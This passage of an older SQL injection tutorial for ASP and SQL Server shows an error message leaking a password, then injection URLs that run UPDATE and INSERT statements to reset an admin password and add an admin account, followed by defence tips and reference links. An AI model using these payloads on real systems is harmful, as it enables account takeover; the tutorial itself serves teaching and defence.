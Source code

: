 Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’  
\[Microsoft\]\[ODBC SQL Server Driver\]\[SQL Server\]Syntax error converting the nvarchar value ‘31173 morpheus’ to a column of data type int.  
/index.asp, line 5

Now, you can even login as ‘trinity’ with the password ‘31173’.

**7.0 How to update/insert data into the database?**  
When we successfully gather all column name of a table, it is possible for us to UPDATE or even INSERT a new record in the table. For example, to change password for ‘neo’:

http://duck/index.asp?id=10; UPDATE ‘admin\_login’ SET ‘password’ = ‘newpas5′ WHERE login\_name=’neo’–

To INSERT a new record into the database:

http://duck/index.asp?id=10; INSERT INTO ‘admin\_login’ (‘login\_id’, ‘login\_name’, ‘password’, ‘details’) VALUES (666,’neo2′,’newpas5′,’NA’)–

We can now login as ‘neo2’ with the password of ‘newpas5’.

**8.0 How to avoid SQL Injection?**  
Filter out character like single quote, double quote, slash, back slash, semi colon, extended character like NULL, carry return, new line, etc, in all strings from:  
 – Input from users  
 – Parameters from URL  
 – Values from cookie

For numeric value, convert it to an integer before parsing it into SQL statement. Or using ISNUMERIC to make sure it is an integer.

Change ‘Startup and run SQL Server’ using low privilege user in SQL Server Security tab.

Delete stored procedures that you are not using like:

master..Xp\_cmdshell, xp\_startmail, xp\_sendmail, sp\_makewebtask

**9.0 Where can I get more info?**  
One of the earliest works on SQL Injection we have encountered should be the paper from Rain Forest Puppy about how he hacked PacketStorm.  
[http://www.wiretrip.net/rfp/p/doc.asp?id=42&iface=6](http://www.wiretrip.net/rfp/p/doc.asp?id=42&iface=6)

Great article on gathering information from ODBC error messages:  
[http://www.blackhat.com/presentations/win-usa-01/Litchfield/BHWin01Litchfield.doc](http://www.blackhat.com/presentations/win-usa-01/Litchfield/BHWin01Litchfield.doc)

A good summary of SQL Injection on various SQL Server on  
[http://www.owasp.org/asac/input\_validation/sql.shtml](http://www.owasp.org/asac/input_validation/sql.shtml)

Senseport’s article on reading SQL Injection:  
[http://www.sensepost.com/misc/SQLinsertion.htm](http://www.sensepost.com/misc/SQLinsertion.htm)

Other worth readings:  
[http://www.digitaloffense.net/wargames01/IOWargames.ppt](http://www.digitaloffense.net/wargames01/IOWargames.ppt)  
[http://www.wiretrip.net/rfp/p/doc.asp?id=7&iface=6](http://www.wiretrip.net/rfp/p/doc.asp?id=7&iface=6)  
[http://www.wiretrip.net/rfp/p/doc.asp?id=60&iface=6](http://www.wiretrip.net/rfp/p/doc.asp?id=60&iface=6)  
[http://www.spidynamics.com/whitepapers/WhitepaperSQLInjection.pdf](http://www.spidynamics.com/whitepapers/WhitepaperSQLInjection.pdf)‘